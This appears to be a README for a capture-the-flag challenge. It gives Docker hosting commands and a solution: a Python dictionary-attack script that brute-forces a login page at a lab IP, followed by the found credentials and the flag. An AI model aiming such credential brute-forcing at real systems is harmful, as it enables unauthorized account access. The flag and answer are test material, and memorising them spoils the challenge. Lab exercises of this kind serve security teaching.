 # Bruteforce

Hosting:

```bash
docker build -t bruteforce .
docker run -p 8080:80 bruteforce
```

Solution:

1. Navigate to `<url>`/admin
2. Run following script:

   ```py
   import requests

   base_url = "http://192.168.39.6:5080/login.php?username={}&password={}"

   username = []
   password = []

   with open("./challenge_files/passwords.txt", "r", encoding="UTF-8") as file:
       for line in file:
           param = line.strip()
           password.append(param)

   with open("./challenge_files/usernames.txt", "r", encoding="UTF-8") as file:
       for line in file:
           param = line.strip()
           username.append(param)


   def dict_attack():
       for user in username:
           for p in password:
               url = base_url.format(user, p)
               response = requests.get(url)

               if response.status_code != 401:
                   print(f"Successful URL: {url}")
                   print("Response:")
                   print(response.text)
                   return
               else:
                   continue


   dict_attack()

   ```

3. Username: `admin` Password: `trinity` (From dictionary)

Flag: `glitch{trinity}`
